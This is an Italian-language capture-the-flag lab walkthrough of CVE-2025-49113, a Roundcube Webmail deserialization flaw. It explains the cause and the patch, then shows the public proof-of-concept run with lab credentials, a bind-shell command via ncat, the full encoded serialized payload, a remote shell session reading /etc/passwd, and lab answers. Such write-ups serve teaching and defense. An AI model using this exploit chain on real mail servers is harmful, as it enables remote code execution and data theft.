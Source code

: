 https://tryhackme.com/room/roundcubecve202549113

### Introduzione

[Roundcube](https://roundcube.net/) è un progetto di webmail gratuito e open source. È ricco di funzionalità e disponibile in oltre ottanta lingue. Sebbene le sue funzionalità integrate siano numerose, possono essere ulteriormente ampliate grazie al supporto di plug-in di terze parti.

Richiede principalmente un server web con supporto PHP e un server SQL per funzionare. Apache , Nginx e Lighttpd, tra gli altri, possono facilmente soddisfare i requisiti del server web; MySQL, MariaDB, PostgreSQL, SQLite e molti altri possono soddisfare i requisiti del database. Questa versatilità rende Roundcube una scelta molto popolare per la webmail, soprattutto tra i provider di hosting.

Di recente è stata scoperta una vulnerabilità in Roundcube Webmail; interessa tutte le versioni 1.5.x e 1.6.x **prima** delle 1.5.10 e 1.6.11. Questa vulnerabilità consente l'esecuzione di codice remoto ( RCE ) da parte di utenti autenticati; in altre parole, credenziali valide per la webmail sono sufficienti all'attaccante per eseguire comandi sul sistema host. Questa vulnerabilità ha un punteggio di gravità CVSS 3.x di 9,9, ovvero critico. Roundcube ha già rilasciato le versioni 1.5.10 e 1.6.11 e ne [consiglia vivamente l'aggiornamento](https://roundcube.net/news/2025/06/01/security-updates-1.6.11-and-1.5.10) .

In questa sala verrà spiegato cosa rende possibile questa vulnerabilità e verrà illustrato come sfruttarla in un ambiente di laboratorio.

### Contesto tecnico

**La serializzazione** è il processo di conversione di un oggetto, ovvero un'istanza di una classe in PHP , Java o Python, in un formato memorizzabile o trasmissibile. Questo processo è comunemente utilizzato per memorizzare oggetti in file o database e per inviarli in rete, ad esempio tramite API o cookie.

Una **vulnerabilità di deserializzazione** è una falla di sicurezza che si verifica quando un'applicazione deserializza dati non attendibili o manomessi. **La deserializzazione** è il processo di conversione dei dati da un formato serializzato, come un flusso di byte o una stringa, in un oggetto programma. Se questo processo viene eseguito in modo non sicuro, un aggressore può manipolare i dati serializzati per eseguire codice arbitrario o persino aumentare i privilegi, tra le altre azioni dannose.

[Kirill Firsov](https://x.com/k_firsov) ha scoperto una vulnerabilità di deserializzazione in Roundcube Webmail. Hanno condiviso sul loro sito web la linea di pensiero e [la ricerca che ha portato alla scoperta](https://fearsoff.org/research/roundcube) ; è una lettura interessante. La vulnerabilità è causata dal fatto `_from`che la proprietà `upload.php`non viene verificata accuratamente per valori sicuri prima della deserializzazione.

Questa vulnerabilità può essere dedotta dai [commit per la versione 1.5.10](https://github.com/roundcube/roundcubemail/commit/7408f31379666124a39f9cb1018f62bc5e2dc695#diff-e941e729aef9ce9f97dde65bc93b160e6f972cd8731e0dc2002cb34f95e5675bR35) e [per la versione 1.6.11](https://github.com/roundcube/roundcubemail/commit/0376f69e958a8fef7f6f09e352c541b4e7729c4d) . Anche se non hai familiarità con PHP , controllando le righe di commit e i commenti potrai farti un'idea di come questa vulnerabilità è stata risolta. Nello screenshot qui sotto, puoi facilmente dedurre che le righe aggiuntive ora controllano se il parametro URL `_from`contiene caratteri non sicuri.

Questa vulnerabilità consente l'esecuzione di codice remoto tramite la sua deserializzazione non sicura. L'aggressore deve comunque creare un payload affinché la deserializzazione produca il risultato desiderato.

### Exploitation
  
Avviate la macchina virtuale e AttackBox per poter seguire la procedura. (oppure Kali)

La macchina virtuale ha installata la versione 1.6.10 di Roundcube Webmail. Se non hai familiarità con Roundcube Webmail, puoi avviare Firefox su AttackBox ed esplorarne l'interfaccia. Puoi utilizzare le credenziali di Ellie per accedere alla webmail all'indirizzo `http://MACHINE_IP/roundcube`.

- Nome utente:`ellieptic`
- Password:`ChangeMe123`

#### Codice exploit

FearsOff ha pubblicato un codice exploit proof of concept ( PoC ) sul suo [repository GitHub](https://github.com/fearsoff-org/CVE-2025-49113) . Il modo più semplice per seguirlo è scaricare il codice exploit tramite [nome del file] `git clone https://github.com/fearsoff-org/CVE-2025-49113`. Questo è mostrato nel terminale qui sotto.

Terminale Kali

```shell-session
                                                                                                                                                                                    
┌──(kali㉿kali)-[~/Downloads/Laboratori]
└─$ git clone https://github.com/fearsoff-org/CVE-2025-49113
Cloning into 'CVE-2025-49113'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 8 (delta 1), reused 8 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (8/8), 7.33 KiB | 2.44 MiB/s, done.
Resolving deltas: 100% (1/1), done.
                                                                                                                                                                                    
┌──(kali㉿kali)-[~/Downloads/Laboratori]
└─$ cd CVE-2025-49113/
                                                                                                                                                                                    
┌──(kali㉿kali)-[~/Downloads/Laboratori/CVE-2025-49113]
└─$ ls
CVE-2025-49113.php  rc_install.sh  README.md
                                                          
```



**Nota** : questo `CVE-2025-49113.php`è l'exploit PoC. Se sei un utente free, AttackBox non ha accesso a Internet e devi usare un altro metodo per inserire il file sopra indicato in AttackBox. Un modo semplice sarebbe copiare il file dalla [sua pagina GitHub](https://github.com/fearsoff-org/CVE-2025-49113/blob/main/CVE-2025-49113.php) , creare un nuovo file su AttackBox usando il tuo editor di testo preferito e salvarlo con estensione `.php`.

Esegue `CVE-2025-49113.php`i passaggi necessari per eseguire il payload desiderato sul server di destinazione. Dopo aver recuperato un token CSRF e un cookie di sessione, questo script PHP PoC effettua l'accesso utilizzando il nome utente e la password forniti. I passaggi principali di questo script sono i seguenti:

- Crea un oggetto PHP serializzato dannoso
- Incorpora l'oggetto creato nel `_from`parametro
- Invia una richiesta POST all'endpoint utilizzando il parametro `upload.php`dannoso`_from`

Il parametro dannoso ricevuto verrà deserializzato ed eseguito sul lato server.

#### Esecuzione dell'Exploit

Per eseguire il codice PoC , è necessario utilizzare i seguenti argomenti: `php CVE-2025-49113.php target_url username password command`.

- Il **target_url** dovrebbe essere sostituito dall'URL di Roundcube Webmail, ovvero  http://10.10.177.179/roundcube
- Il **nome utente** e **la password** sono le credenziali valide per accedere alla webmail
- Il **comando** è il “payload” che si desidera venga eseguito sul server di destinazione

Usiamolo `ncat -lvnp 4444 -e /bin/bash`per impostare una shell di binding; questo renderà più facile dimostrare l'exploit e verificare se è stato eseguito correttamente. Un esempio è mostrato nel terminale qui sotto.

Terminale Kali

```shell-session
php CVE-2025-49113.php http://10.10.177.179/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"
```
```
┌──(kali㉿kali)-[~/Downloads/Laboratori/CVE-2025-49113]
└─$ php CVE-2025-49113.php http://10.10.177.179/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"
### Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]

### Retrieving CSRF token and session cookie...

### Authenticating user: ellieptic

### Authentication successful

### Command to be executed: 
ncat -lvnp 4444 -e /bin/bash

### Injecting payload...

### End payload: http://10.10.177.179/roundcube/?_from=edit-%21%C5%22%C5%3B%C5i%C5%3A%C50%C5%3B%C5O%C5%3A%C51%C56%C5%3A%C5%22%C5C%C5r%C5y%C5p%C5t%C5_%C5G%C5P%C5G%C5_%C5E%C5n%C5g%C5i%C5n%C5e%C5%22%C5%3A%C51%C5%3A%C5%7B%C5S%C5%3A%C52%C56%C5%3A%C5%22%C5%5C%C50%C50%C5C%C5r%C5y%C5p%C5t%C5_%C5G%C5P%C5G%C5_%C5E%C5n%C5g%C5i%C5n%C5e%C5%5C%C50%C50%C5_%C5g%C5p%C5g%C5c%C5o%C5n%C5f%C5%22%C5%3B%C5S%C5%3A%C53%C50%C5%3A%C5%22%C5n%C5c%C5a%C5t%C5+%C5-%C5l%C5v%C5n%C5p%C5+%C54%C54%C54%C54%C5+%C5-%C5e%C5+%C5%2F%C5b%C5i%C5n%C5%2F%C5b%C5a%C5s%C5h%C5%3B%C5%23%C5%22%C5%3B%C5%7D%C5i%C5%3A%C50%C5%3B%C5b%C5%3A%C50%C5%3B%C5%7D%C5%22%C5%3B%C5%7D%C5%7D%C5&_task=settings&_framed=1&_remote=1&_id=1&_uploadid=1&_unlock=1&_action=upload

### Payload injected successfully

### Executing payload...

```

Vale la pena sottolineare che l'exploit potrebbe richiedere uno o due minuti per rispondere e a volte lo script restituisce un messaggio di errore nonostante il payload venga eseguito correttamente sul target. In un tentativo, abbiamo ricevuto il seguente messaggio di errore; tuttavia, la shell di binding è stata configurata correttamente e siamo riusciti a connetterci ad essa dall'AttackBox.

Terminale Kali

```shell-session
PHP Warning:  file_get_contents(http://10.10.177.179/roundcube/): Failed to open stream: HTTP request failed! in /home/kali/Downloads/Laboratori/CVE-2025-49113/CVE-2025-49113.php on line 237
### Error: CSRF token not found in response body
```

Sull'AttackBox, è necessario connettersi alla shell bind in ascolto sulla porta `4444`.

Terminale Kali

```shell-session
nc 10.10.177.179 4444
pwd
/var/www/html/roundcube
whoami
www-data
```

Rispondi alle domande seguenti

Uno degli utenti ha il nome Maggie; qual è il suo cognome?

```
cat /etc/passwd
```
```
cat /etc/passwd|grep "maggie"
maggiebyte:x:1002:1002:Maggie Byte,,,:/home/maggiebyte:/bin/bash
```

```
byte
```

Qual è il valore del flag salvato in `/etc`?
```
ls /etc
```

```
cat /etc/flag.txt
```

```
cat /etc/flag.txt


THM{XXXXXXXXXX}

"After three rounds of coffee, I deserialised the object."

```

```
THM{XXXXXXXXXX}
```

#### Conclusione e mitigazione

Questa vulnerabilità richiede solo credenziali webmail valide e funziona con le installazioni predefinite. L'exploit può essere difficile da rilevare, considerando che può facilmente essere scambiato per traffico normale. Considerata la gravità dell'exploit, si consiglia agli utenti che utilizzano le versioni 1.5.x e 1.6.x di aggiornare rispettivamente alle versioni 1.5.10 e 1.6.11. Se per qualche motivo l'aggiornamento non fosse fattibile, una possibile mitigazione potrebbe essere il [blocco di`upload.php`](https://www.vicarius.io/vsociety/posts/cve-2025-49113-roundcube-mitigation-script) .

